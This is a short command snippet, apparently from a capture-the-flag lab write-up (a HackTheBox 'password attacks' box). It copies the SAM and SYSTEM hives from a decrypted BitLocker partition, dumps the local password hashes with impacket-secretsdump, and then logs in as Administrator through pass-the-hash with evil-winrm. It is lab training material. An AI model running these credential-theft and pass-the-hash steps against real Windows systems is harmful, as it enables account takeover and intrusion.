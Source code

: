     tree /mnt/mydrive
    # we can see a brief info of available files
    # this includes 'SAM' and 'SYSTEM'

    cd /mnt/mydrive

    ls -la
    # we have SAM and SYSTEM files

    sudo cp SAM SYSTEM /home/sv/pw-attacks

    # we can gracefully close the Bitlocker partition now

    sudo umount /mnt/mydrive

    sudo cryptsetup bitlkClose random_label

    # now we can extract the hashes
    impacket-secretsdump -sam SAM -system SYSTEM local
    # this gives us the Administrator hash

    # we can do a PtH attack with evil-winrm
    evil-winrm -i password-attacks-3.htb -u Administrator -H e53d4d912d96874e83429886c7bf22a1

    # get the flag from Administrator Desktop
    ```
